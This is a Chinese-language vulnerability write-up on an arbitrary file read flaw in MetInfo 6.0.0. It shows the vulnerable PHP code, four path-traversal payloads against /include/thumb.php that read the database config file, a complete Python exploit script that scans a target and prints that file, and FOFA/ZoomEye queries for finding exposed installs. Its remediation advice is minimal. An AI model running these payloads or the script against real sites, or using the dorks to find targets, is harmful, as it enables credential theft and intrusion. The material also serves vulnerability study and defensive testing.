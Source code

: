 



### 1.1、漏洞描述

漏洞名称：MetInfo任意文件读取

漏洞简介：MetInfo是一套使用PHP和MySQL开发的内容管理系统，其中的`/app/system/include/module/old_thumb.class.php`文件存在任意文件读取漏洞，攻击者可利用该漏洞读取网站的敏感文件。

下载地址：[历史版本安装文件下载 Ver_6.0.0](http://v.metinfo.cn/)

### 1.2、漏洞等级

高危

### 1.3、影响版本

![image-20230831114536509](./imgs/image-20230831114536509.png)

影响版本：MetInfo 6.0.0

### 1.4、漏洞复现

#### 代码审计

```php
defined('IN_MET') or exit('No permission');

load::sys_class('web');

class old_thumb extends web{

      public function doshow(){
        global $_M;

         $dir = str_replace(array('../','./'), '', $_GET['dir']);


        if(substr(str_replace($_M['url']['site'], '', $dir),0,4) == 'http' && strpos($dir, './') === false){
            header("Content-type: image/jpeg");
            ob_start();
            readfile($dir);
            ob_flush();
            flush();
            die;
        }
```

 \$dir = str_replace(array('../','./'), '', $_GET['dir']);

dir变量接受来自$_GET['dir']传递进来的值，用了str_replace函数做替换，将`../`，`./`替换成空值

readfile(\$dir);

#### 漏洞点

```python
/include/thumb.php
```

使用bp进行抓包

![image-20230831113308317](./imgs/image-20230831113308317.png)

测试一：

```php
/include/thumb.php?dir=..././http/..././config/config_db.php
```

测试二：

```php
/include/thumb.php?dir=.....///http/.....///config/config_db.php
```

测试三：

```php
/include/thumb.php?dir=http/.....///.....///config/config_db.php
```

测试四：

```php
/include/thumb.php?dir=http\..\..\config\config_db.php
    
   
# 此POC 仅适用于Windows 系统，Linux 下无效  
#    只有windows以右斜杠作为文件路径分隔符
```

![image-20230831113616551](./imgs/image-20230831113616551.png)

### 1.5、深度利用

#### EXP编写

```python
import requests
import sys

banner = """
MetInfo 6.0.0
    ___________.__.__           __________                   .___
    \_   _____/|__|  |   ____   \______   \ ____ _____     __| _/
    |    __)  |  |  | _/ __ \   |       _// __ \\__  \   / __ | 
    |     \   |  |  |_\  ___/   |    |   \  ___/ / __ \_/ /_/ | 
    \___  /   |__|____/\___  >  |____|_  /\___  >____  /\____ | 
        \/                 \/          \/     \/     \/      \/ 
     
Usage: python3 *.py http://192.168.80.139/MetInfo6.0.0/
"""

headers = {
    "User-Agent":   "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36"
}

dir_list = [
    "..././http/..././config/config_db.php",
    ".....///http/.....///config/config_db.php",
    "http/.....///.....///config/config_db.php",
    "http\..\..\config\config_db.php"
]

def attack(host):
    vul = "/include/thumb.php"
    url = host + vul

    res = requests.get(url = url, headers = headers)

    if res.status_code != 200:
        print(f"[INFO] {vul} is Not Exists!")
        exit()

    print(f"[INFO] {vul} is Exists!")

    for param in dir_list:
        params = {
            "dir":  param 
        }

        res = requests.get(url = url, params = params, headers = headers)

        print(f"[INFO] Test URL: {res.url}")

        if "<?php" in res.text:
            print("[RESULT] The target is vulnreable!")
            print(f"[RESULT]\n{res.text}")
            break

if len(sys.argv) < 2:
    print(banner)
    exit()

host = sys.argv[1]

attack(host = host)
```

![image-20230831164912003](./imgs/image-20230831164912003.png)

### 1.6、漏洞挖掘

FOFA

```text
app="metinfo"
```

ZoomEye

```text
app:"MetInfo"
app:"MetInfo"+os:"Windows"
```

### 1.7修复建议

- 升级
- 打补丁
- 上设备